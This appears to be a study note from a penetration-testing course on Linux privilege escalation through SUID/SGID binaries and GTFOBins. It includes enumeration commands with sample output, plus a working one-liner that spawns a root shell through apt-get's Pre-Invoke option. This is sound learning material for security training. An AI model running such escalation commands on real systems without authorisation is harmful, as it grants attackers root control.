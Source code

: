 # Special Permissions



### SETUID

   The Set user ID upon execution (SUID) permissions allow a user execute program or script
   with the permissions of another user, typically with elevated priveleges. The ```setuid```
   bit appears as an s.

   ```
   0xevilpayload@htb[/htb]$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

   -rwsr-xr-x 1 root root 16728 Sep  1 19:06 /home/htb-student/shared_obj_hijack/payroll
   -rwsr-xr-x 1 root root 16728 Sep  1 22:05 /home/mrb3n/payroll
   -rwSr--r-- 1 root root 0 Aug 31 02:51 /home/cliff.moore/netracer
   -rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
   -rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
   -rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
   -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
   -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
   -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
   -rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
   -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   -rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
   -rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
   -rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
   -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   -rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
   -rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
   -rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
   -rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
   -rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
   -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
   -rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
   -rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
   -rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
   -rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
   -rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
   -rwsr-xr-x 1 root root 1588768 Aug 31 00:50 /usr/bin/screen-4.5.0
   -rwsr-xr-x 1 root root 94240 Jun  9 14:54 /sbin/mount.nfs
   ```


It may be possible to reverse engineer the program with the SETUID bit set, identify a
vulnerability, and exploit this to escalate our privileges. Many programs have additional
features that can be leveraged to execute commands and, if the setuid bit is set on
them, these can be used for our purpose.

The Set-Group-ID(setgid) permission is another special permission that allows us to
run binaries as if we were part of the group that created them. These files can be
enumerated using the following command: ```find / -uid 0 -perm -6000 -type f 2>/dev/null```.
These files can be leveraged in the same manner as setuid binraries to escalate privileges.
```
0xevilpayload@htb[/htb]$ find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

   -rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
```

### GTFOBins

The GTFOBins project is a curated list of binaries ans scripts that can be used by an
attacker to bypass security restrictions. Each page details the program's features that
cane be used to break out of restricted shells, escalate privileges, spawn reverse shell
connections, and transfer files. For example, apt-get can be used to break out of
restricted environments and spwn a shell by addinv a Pre-invoke command:

```
0xevilpayload@htb[/htb]$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

   # id
   uid=0(root) gid=0(root) groups=0(root)
```
